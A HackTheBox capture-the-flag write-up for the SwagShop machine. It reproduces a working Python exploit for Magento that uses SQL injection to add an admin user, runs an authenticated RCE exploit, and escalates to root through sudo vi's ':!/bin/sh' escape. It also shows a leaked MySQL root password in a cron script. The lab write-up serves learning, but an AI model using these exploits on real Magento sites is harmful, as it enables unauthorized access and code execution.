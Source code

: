 ```yaml
---
tags:
  -  htb
revisit: true
---
```

# HackTheBox: [SwagShop](https://app.hackthebox.com/machines/SwagShop)

> [!tip]- Spoiler Summary
> This machine is hosting a web commerce site with an SQLi vulnerability that allows an attacker to add an admin-level user, which enables an RCE exploit. Privilege escalation is trivial with `vi`.

## Services

### TCP

First, a TCP [port scan with `nmap`](nmap-20240610.md):

```console
# Nmap 7.94SVN scan initiated Wed Aug  7 13:59:01 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.10.140)
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.140], RedirectLocation[http://swagshop.htb/]
http://swagshop.htb/ [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

## RCE

Here is how I achieved remote code execution on the target system.

Here's the [exploit for the SQLi to get an admin user](https://www.exploit-db.com/exploits/37977) on the web app:

```python
import requests
import base64
import sys

target = sys.argv[1]

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

# For demo purposes, I use the same attack as is being used in the wild
SQLQUERY="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

# Put the nice readable queries into one line,
# and insert the username:password combinination
query = SQLQUERY.replace("\n", "").format(username="ypwq", password="123")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds ypwq:123".format(target)
else:
    print "DID NOT WORK"
```

```console
$ python2 ./x.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

There's an [authenticated RCE available for Magento available from exploit-db](https://www.exploit-db.com/exploits/37811), but I had some problems getting the `mechanize` module working correctly with Python2.7. There's an updated version written for Python3 available at <https://github.com/Hackhoven/Magento-RCE.git>.

```console
$ python3 ./magento-rce-exploit.py http://swagshop.htb/index.php/admin/ 'id'
Form name: None
Control name: form_key
Control name: login[username]
Control name: dummy
Control name: login[password]
Control name: None
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The user flag is readable in the home directory of user `haris`:

```git
www-data@swagshop:/var/www/html$ ls -la /home/haris/user.txt
-rw-r--r-- 1 haris haris 33 Aug  9 10:59 /home/haris/user.txt
```

## PE

Here's how I was able to escalate privileges for full control of the system.

```console
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Escaping to a shell from `vi` is trivial with: `:!/bin/sh`

## Post

Life after `root`.

```console
# crontab -l
...
# m h  dom mon dow   command
@reboot /root/.script/update.sh
# cat /root/.script/update.sh
#!/bin/bash
sleep 10
new_date=`date +'%F %T'`
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -Bse "use swagshop; update sales_flat_order set created_at = '$new_date' where state = 'processing';"
```

## Open Questions

I lost a lot of time trying to get the older `python2` exploit working. I was able to install the correct module (`mechanize`) using `python2 -m pip install …` but it still didn't work, for reasons I never got to the bottom of.
